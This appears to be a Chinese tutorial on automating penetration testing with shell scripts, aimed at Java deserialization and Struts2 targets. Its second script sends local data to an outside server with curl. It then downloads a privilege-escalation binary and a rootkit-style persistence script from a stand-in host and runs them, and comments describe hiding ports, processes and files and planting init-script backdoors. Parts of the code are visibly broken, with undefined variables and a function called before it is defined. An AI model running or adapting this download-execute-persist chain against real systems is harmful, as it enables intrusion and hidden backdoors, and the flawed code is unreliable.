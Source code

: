 ## 分析shell脚本，自动化渗透
如果不会shell编程，这里需要自己自学shell编程。

### 0x00 理解自动化
自动化渗透，也就是流水线般的去做渗透测试。
在个人看来渗透主要分三步骤，什么样的需求①，达到什么样的目的②，最终结果③，渗透的主要三个步骤。
以目前的技术要达到完全的自动化，还无法做到，只能做到针对性强，非常有局限的自动化。
但是可以通过需求、目的、结果来进行建模，就类似搭积木一样，可以应对大部分情况。

### 0x01 需求
分析漏洞需求，在满足什么样的条件触发exp。比如Java反序列化漏洞，明确的知道哪些应用程序使用了该
技术，通过特征过滤包含这些应用程序特征的程序。
例如，我需要过滤*.do,*.action,*.jsp后缀的名字来确认是否使用java编写的应用程序
```shell
#!/bin/sh
#过滤所有URL,对java应用程序进行渗透测试
URL=`cat 1.log | grep -Eo "<a[^>]+?href=[\"']?([^\"']+)[\"']?[^>]*>([^<]+)</a>"`
#过滤do或者jsp或者action的query请求。
JSP=`echo $URL | grep -Eo "http[s]?://([A-Za-z0-9\.]*)?/[0-9a-zA-Z0-9/]+([^\.jsp]+)\.jsp"`
DO=`echo $P | grep -Eo "http[s]?://([A-Za-z0-9\.]*)?/[0-9a-zA-Z0-9/]+\.do([\?]?[^\"']+)?"`
foreach(){
	for url in $JSP$DO;do
		#执行目标
	done
	echo 
	return 0;
}

```


### 0x02 目的
满足需求后执行我们的目的，也就是漏洞利用，但是在利用之前，要确定，如果成功，需要做什么事情，
那么，一般黑帽做到这步的情况，就是提权留后门，由于我们只做测试检测，所以，在这里，就只邀请服务器向
我们的中间服务器发送一个带kernel参数的POST，来确定目标系统的版本。
```shell
#!/bin/sh
#执行目标
exp();
#exp的实现，根据java的各种漏洞，不如java反序列化，struts2等漏洞（如果是此类型漏洞可能还需要进一步
#确定，如果无法确认，放入任意漏洞检测队列）。
#大致实现是
while read line
do 
    data="$data${line}"
done < data.dat
exp(){
	#构造一个请求包，向服务器发送请求。
	curl -k -L $1 -F "data=$data"
}
#实现一个隐藏端口，隐藏进程，隐藏文件的`linux mod`,
#编写`shell init`放到启动项里根据不同情况触发，如：`/etc/init/[rc0.d,rc1.d,rc2.d,rc3.d,rc4.d]`
#编写提权运行程序
#curl_exp.sh

CURL=`which curl`
if [ "$CURL" = "" ];then
	exit 1;
fi
if [ $? != 0 ];then
	exit 1;
fi

#此处下载执行隐藏端口，隐藏进程，隐藏文件的命令脚本
curl -k -L http://www.example.com/daemon-exp.sh -o daemon-exp.sh #shell-init script
#su
curl -k -L http://www.example.com/su.out -o su.out #执行提权，用最高权限执行shell脚本
chmod +x $(pwd)/su.out
./su.out daemon-exp.sh
exit 0;


```

### 0x03 结果
验证中间服务器收到的请求，确定目标机存在漏洞。


PS：
①需求，这里指满足条件。
②目的，在满足需求的情况下，是否要拿到root权限，留下后门等。
③结果，完成所有目的操作，无任何异常或者错误。

